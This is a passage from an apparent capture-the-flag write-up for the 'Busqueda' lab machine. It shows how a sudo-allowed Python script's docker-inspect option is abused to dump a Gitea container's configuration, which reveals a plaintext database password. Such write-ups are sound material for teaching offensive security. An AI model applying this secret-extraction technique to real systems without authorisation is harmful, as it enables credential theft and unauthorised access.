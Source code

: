 There is a container with a gitea instance, and another one with a mysql engine. we can find a reference to it in hosts file :

```shell
cat /etc/hosts
```

Result:

```text
127.0.0.1 localhost
127.0.1.1 busqueda searcher.htb gitea.searcher.htb
```
 
Next commands :

```shell
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect
```

Result:

```text
Usage: /opt/scripts/system-checkup.py docker-inspect <format> <container_name>
```

```shell
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

Result:

```text
Something went wrong
```

We can check docker inspect documentation, as it seems to be related : [https://docs.docker.com/engine/reference/commandline/inspect/](https://docs.docker.com/engine/reference/commandline/inspect/)

The base command is :

```shell
docker inspect --format='{{json .Config}}' $INSTANCE_ID
```

So we can try the following command (960873171e2e: ID of gitea container obtained from `sudo /usr/bin/python3 /opt/scripts/system-checkup.py  docker-ps` ) :

```shell
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .Config}}' 960873171e2e
```

Result:

```json
{"Hostname":"960873171e2e","Domainname":"","User":"","AttachStdin":false,"AttachStdout":false,"AttachStderr":false,"ExposedPorts":{"22/tcp":{},"3000/tcp":{}},"Tty":false,"OpenStdin":false,"StdinOnce":false,"Env":["USER_UID=115","USER_GID=121","GITEA__database__DB_TYPE=mysql","GITEA__database__HOST=db:3306","GITEA__database__NAME=gitea","GITEA__database__USER=gitea","GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh","PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","USER=git","GITEA_CUSTOM=/data/gitea"],"Cmd":["/bin/s6-svscan","/etc/s6"],"Image":"gitea/gitea:latest","Volumes":{"/data":{},"/etc/localtime":{},"/etc/timezone":{}},"WorkingDir":"","Entrypoint":["/usr/bin/entrypoint"],"OnBuild":null,"Labels":{"com.docker.compose.config-hash":"e9e6ff8e594f3a8c77b688e35f3fe9163fe99c66597b19bdd03f9256d630f515","com.docker.compose.container-number":"1","com.docker.compose.oneoff":"False","com.docker.compose.project":"docker","com.docker.compose.project.config_files":"docker-compose.yml","com.docker.compose.project.working_dir":"/root/scripts/docker","com.docker.compose.service":"server","com.docker.compose.version":"1.29.2","maintainer":"maintainers@gitea.io","org.opencontainers.image.created":"2022-11-24T13:22:00Z","org.opencontainers.image.revision":"9bccc60cf51f3b4070f5506b042a3d9a1442c73d","org.opencontainers.image.source":"https://github.com/go-gitea/gitea.git","org.opencontainers.image.url":"https://github.com/go-gitea/gitea"}}
```

